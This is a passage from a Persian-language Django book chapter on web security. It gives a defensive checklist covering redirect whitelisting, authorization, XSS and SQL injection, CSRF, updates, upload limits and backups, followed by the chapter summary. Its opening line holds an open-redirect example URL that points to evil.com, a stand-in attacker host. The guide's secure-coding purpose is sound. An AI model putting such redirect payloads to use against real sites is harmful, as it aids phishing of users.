  http://example.com/r?url=http://evil.com, سپس همیشه دامنه های در لیست سفید را بررسی کنید.

- **بررسی مجوز حتی برای کاربران احراز هویت شده:** قبل از انجام هر کدام
  تغییر با عوارض جانبی، بررسی کنید که آیا کاربر وارد شده مجاز به انجام آن است یا خیر.

- **از دقیق ترین عبارات منظم ممکن استفاده کنید:**  
  چه «URLconf» یا اعتبار سنجی‌های فرم شما، باید از عبارات منظم تنبل و عمومی اجتناب کنید.

- **کد پایتون خود را در ریشه وب نگه ندارید:**
  این می تواند منجر به نشت تصادفی کد منبع شود اگر به عنوان متن ساده ارائه شود.

- **به جای ساختن رشته ها با دست از الگوهای جنگو استفاده کنید:**
  قالب ها در برابر حملات XSS محافظت می کنند.

- **از Django ORM به جای دستورات SQL استفاده کنید:**
  ORM محافظت در برابر تزریق SQL را ارائه می دهد.

- **از فرم های جنگو با ورودی POST برای هر اقدامی با عوارض جانبی استفاده کنید:**
  ممکن است استفاده از فرم ها برای یک دکمه ساده رای زیاده روی به نظر برسد، اما این کار را انجام دهید.

- **CSRF باید فعال و استفاده شود:**
  اگر نماهای خاصی را با استفاده از دکوراتور @csrf_exempt معاف می کنید، بسیار مراقب باشید.

- **اطمینان حاصل کنید که جنگو و همه بسته ها آخرین نسخه هستند:**
  برای به روز رسانی برنامه ریزی کنید. آنها ممکن است نیاز به
  تغییراتی در کد منبع شما داشته باشند. با این حال، آن‌ها ویژگی‌های جدید
  درخشان و اصلاحات امنیتی را نیز به ارمغان می‌آورند.

- **اندازه و نوع فایل های آپلود شده توسط کاربر را محدود کنید:**
  بارگذاری فایل های اجرایی یا اسکریپت ها را رد کنید.
  بارگذاری فایل های اجرایی یا اسکریپت ها را رد کنید.

- **یک برنامه پشتیبان و بازیابی داشته باشید:**
  به لطف مورفی، می توانید برای یک حمله اجتناب ناپذیر،
  فاجعه یا هر نوع خرابی دیگری برنامه ریزی کنید. اطمینان حاصل کنید که
  برای به حداقل رساندن از دست دادن داده ها، به طور مکرر نسخه پشتیبان تهیه می کنید.

برخی از این موارد را می توان به طور خودکار با استفاده از Erik's Pony Checkup
در http://ponycheckup.com/ بررسی کرد. با این حال، توصیه می کنم
این چک لیست را پرینت یا کپی کنید و روی میز خود بچسبانید.

به یاد داشته باشید که این لیست به هیچ وجه جامع نیست و جایگزینی
برای ممیزی امنیتی مناسب توسط یک متخصص نیست.

### خلاصه

در این فصل، ما به انواع رایج حملاتی که بر وب سایت ها و برنامه های کاربردی
وب تأثیر می گذارند نگاه کردیم. در بسیاری از موارد، توضیح تکنیک ها برای
وضوح و به قیمت جزئیات ساده شده است. با این حال، هنگامی که ما شدت حمله را درک کنیم،
می توانیم از اقدامات متقابلی که جنگو ارائه می دهد قدردانی کنیم.

در فصل پایانی خود، نگاهی به فعالیت های پیش از استقرار با جزئیات بیشتر
خواهیم داشت. ما همچنین نگاهی به استراتژی های مختلف استقرار، مانند
میزبانی مبتنی بر ابر برای استقرار یک برنامه جنگو خواهیم داشت.
